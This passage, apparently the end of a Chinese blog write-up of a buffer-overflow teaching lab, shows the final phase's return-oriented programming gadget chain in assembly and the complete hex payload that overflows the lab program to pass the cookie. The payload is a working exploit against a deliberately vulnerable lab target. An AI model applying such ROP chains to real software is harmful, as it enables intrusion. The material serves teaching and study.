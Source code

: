 最后要构造的字节码应有如下结构（地址从低到高）

```text
48 89 e0    movq %rsp,%rax
48 89 c7    movq %rax,%rdi
58          popq %rax
# offset 0x48
89 c2       movl %eax,%edx
89 d1       movl %edx,%ecx
89 ce       movl %ecx,%esi
48 8d 04 37 lea  (%rdi,%rsi,1),%rax
48 89 c7    movq %rax,%rdi
# cookie string
```

结果如下

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
```

最后提交 PASS 此处完结撒花

## 写在后面

虽然就五个实验，但可以让我们感受到什么是Buffer Overflow，以及对应的攻击方式。

~~也许还可以作为PWN的入门课~~

~~好像真没什么必要弄个写在后面~~
